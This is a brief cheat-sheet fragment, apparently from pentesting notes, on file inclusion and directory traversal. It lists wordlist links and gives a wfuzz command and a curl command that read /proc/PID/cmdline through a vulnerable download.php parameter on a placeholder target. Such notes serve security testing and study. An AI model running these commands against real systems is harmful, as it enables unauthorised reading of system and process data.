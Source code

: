 ### :open_file_folder: Windows

- https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

### :open_file_folder: Linux

- https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

### :open_file_folder: (Proc File System)[https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/]

```bash
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```